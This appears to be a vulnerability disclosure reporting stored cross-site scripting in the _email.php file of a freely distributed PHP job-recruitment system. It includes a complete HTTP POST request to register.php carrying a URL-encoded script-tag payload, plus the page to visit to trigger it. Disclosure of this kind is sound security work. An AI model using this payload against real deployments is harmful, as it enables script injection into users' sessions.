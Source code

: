 # job-recruitment-in-php has Cross Site Scripting vulnerability in _email.php

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
/_email.php

## describe

In  /_email.php, There is a cross-site scripting attack  vulnerability in Job-recruitment system. The parameter that can be controlled is: $row["email"] . A malicious attacker can obtain sensitive information about administrators.

**Code analysis** 

Select email from user_account tables, and splicing it to the $dets parameter. echo it in no filtter.

image-20241218135141210

## POC

```
POST /register.php/ HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/register.php/
Cookie: PHPSESSID=k2j8lv5uh7kjvag3t57a63276s
Upgrade-Insecure-Requests: 1
Priority: u=0, i

e=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E&p1=admin123
```

![image-20241218135335134](https://github.com/user-attachments/assets/86de1987-c5e2-4cde-995e-43d4da8b2dbd)

asset the url

```
http://airecruitmentsystem/_email.php
```

**Result**

![image-20241218135309193](https://github.com/user-attachments/assets/8671b238-ede3-49f1-831e-24cddc603624)

